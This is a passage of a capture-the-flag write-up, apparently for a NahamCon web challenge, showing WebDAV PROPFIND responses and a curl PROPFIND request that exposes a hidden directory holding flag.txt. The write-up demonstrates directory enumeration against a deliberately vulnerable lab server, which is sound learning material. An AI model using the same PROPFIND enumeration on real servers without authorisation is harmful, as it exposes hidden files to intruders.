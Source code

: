 ```xml
        <D:response>
                <D:href>/templates</D:href>
                <D:propstat>
                        <D:prop>
                                <D:displayname>templates</D:displayname>
                        </D:prop>
                        <D:status>HTTP/1.1 200 OK</D:status>
                </D:propstat>
        </D:response>
        <D:response>
                <D:href>/app.py</D:href>
                <D:propstat>
                        <D:prop>
                                <D:displayname>app.py</D:displayname>
                        </D:prop>
                        <D:status>HTTP/1.1 200 OK</D:status>
                </D:propstat>
        </D:response>
        <D:response>
                <D:href>/static</D:href>
                <D:propstat>
                        <D:prop>
                                <D:displayname>static</D:displayname>
                        </D:prop>
                        <D:status>HTTP/1.1 200 OK</D:status>
                </D:propstat>
        </D:response>
        <D:response>
                <D:href>/the_secret_dav_inci_code</D:href>
                <D:propstat>
                        <D:prop>
                                <D:displayname>the_secret_dav_inci_code</D:displayname>
                        </D:prop>
                        <D:status>HTTP/1.1 200 OK</D:status>
                </D:propstat>
        </D:response>
</D:multistatus>
```

- immediately we can see `/the_secret_dav_inci_code`, here is what happens if we request PROPFIND on this path :

```
> curl -X PROPFIND http://challenge.nahamcon.com:30365/the_secret_dav_inci_code
<D:multistatus xmlns:D="DAV:"><D:response><D:href>/the_secret_dav_inci_code</D:href><D:propstat><D:prop><D:message>WebDAVinci Code</D:message><D:directory>True</D:directory></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>/the_secret_dav_inci_code/flag.txt</D:href><D:propstat><D:prop><D:displayname>flag.txt</D:displayname></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response></D:multistatus>
```

```xml
<D:multistatus
        xmlns:D="DAV:">
        <D:response>
                <D:href>/the_secret_dav_inci_code</D:href>
                <D:propstat>
                        <D:prop>
                                <D:message>WebDAVinci Code</D:message>
                                <D:directory>True</D:directory>
                        </D:prop>
                        <D:status>HTTP/1.1 200 OK</D:status>
                </D:propstat>
        </D:response>
        <D:response>
```